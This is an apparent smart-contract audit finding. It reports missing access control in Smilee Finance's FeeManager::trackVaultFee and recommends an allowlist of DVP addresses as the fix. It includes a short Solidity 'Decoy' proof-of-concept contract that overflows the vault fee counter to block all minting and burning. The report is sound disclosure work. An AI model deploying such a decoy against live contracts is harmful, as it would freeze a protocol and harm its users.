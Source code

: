 Low Mauve Crab

high

# Complete DoS of every DVP's minting and burning, due to insufficient access controls within FeeManager::trackVaultFee.

## Summary
`FeeManager::trackVaultFee` has no access controls, so a malicious user can call it with malicious input, maximally inflating `vaultFeeAmounts` for any vault. This is a DoS for all minting and burning in the DVP associated with that vault. 

## Vulnerability Details
`FeeManager::trackVaultFee` is an external function with improper access controls. It expects `msg.sender` to be the DVP for a vault but does not check that this is the case.

```solidity
function trackVaultFee(address vault, uint256 feeAmount) external { //@audit no access controls!
        // Check sender:
        IDVP dvp = IDVP(msg.sender);
        if (vault != dvp.vault()) {
            revert WrongVault();
        }

        vaultFeeAmounts[vault] += feeAmount;

        emit TransferVaultFee(vault, feeAmount);
    }
```
A malicious user can use a dummy contract that prevents the function from reverting, and provide a `feeAmount` that raises `vaultFeeAmounts[vault]` to `type(uint256).max`.

<details>
<summary> Example Dummy Contract that would work </summary>

```solidity
contract Decoy {
    address public vault;

    function attack(address _vault, address _feeManager) public {
        vault = _vault;

        uint256 vaultFeeAmount = FeeManager(_feeManager).vaultFeeAmounts(vault);

        FeeManager(_feeManager).trackVaultFee(address(vault), type(uint256).max - vaultFeeAmount);
    }
}
```
</details>

To attack using the above contract, an attacker would simply deploy the decoy and call the `attack()` function with a vault and the FeeManager as parameters.

Then after this attack, whenever `DVP::_mint` or `DVP::_burn` is called, it calls `FeeManager::trackVaultFee()` to track the fees, but it will revert due to overflow when trying to increment `vaultFeeAmounts[vault]`.

## Impact
Complete DoS can be achieved for any DVP, at zero cost to the attacker.

## Code Snippet
https://github.com/sherlock-audit/2024-02-smilee-finance/blob/3241f1bf0c8e951a41dd2e51997f64ef3ec017bd/smilee-v2-contracts/src/FeeManager.sol#L218-L228

## Tool used
Manual Review

## Recommendation
Maintain a mapping (address to boolean) which stores active DVP addresses, and have an admin-function to set these when a new DVP is added. Then in `trackVaultFee`, revert if `msg.sender` maps to a false boolean in that mapping.